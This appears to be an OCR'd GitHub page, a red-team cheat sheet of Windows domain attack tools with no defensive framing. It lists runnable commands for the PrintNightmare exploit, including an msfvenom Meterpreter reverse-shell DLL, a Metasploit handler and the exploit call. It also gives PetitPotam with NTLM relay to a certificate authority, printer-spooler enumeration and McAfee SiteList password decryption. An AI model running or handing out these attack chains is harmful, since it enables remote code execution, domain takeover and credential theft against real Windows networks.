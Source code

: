 # cube0x0's CVE-2021-1675
https://github.com/cube0x0/CVE-2021-1675.git  
caution: need to use cube0x0's version of Impacke
```zsh
# $ rpcdump.py @XXX.XXX.XXX.XXX | egrep 'MS-RPRN|MS-PAR'
# $ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=XXX.XXX.XXX.XXX LPORT=8080 -f dll > testpayload.dll
# $ sudo smbserver.py -smb2support TestShare /path/to/testpayload.dll
# [msf](Jobs:0 Agents:0) >> use exploit/multi/handler
# [msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
# [msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST XXX.XXX.XXX.XXX
# [msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080
# [msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
$ sudo python3 CVE-2021-1675.py hoge.com/TestUser:TestPassword@XXX.XXX.XXX.XXX '\\XXX.XXX.XXX.XXX\TestShare\testpayload.dll'
# (Meterpreter 1)(C:\Windows\system32) > shell
```

# PKINITtools
https://github.com/dirkjanm/PKINITtools

# PetitPotam
https://github.com/topotam/PetitPotam
```zsh
# $ sudo ntlmrelayx.py -debug -smb2support --target http://TestCa.HOGE.COM/certsrv/certfnsh.asp --adcs --template DomainController
$ python3 PetitPotam.py XXX.XXX.XXX.XXX YYY.YYY.YYY.YYY
```

# certi
https://github.com/zer1t0/certi
locate CA

# Get-SpoolStatus.ps1
https://github.com/NotMedic/NetNTLMtoSilverTicket
tag: Enumerating for MS-PRN Printer Bug
```powershell
PS> Import-Module .\SecurityAssessment.ps1
PS> Get-SpoolStatus -ComputerName TEST-DC01.HOGE.COM
```

# SharpGPOAbuse

# mcafee-sitelist-pwd-decryption
tag: mcafee
python3 version is released.
https://github.com/funoverip/mcafee-sitelist-pwd-decryption
```zsh
$ mcafee_sitelist_pwd_decrypt.py TestMcafeeCryptedPassword
```
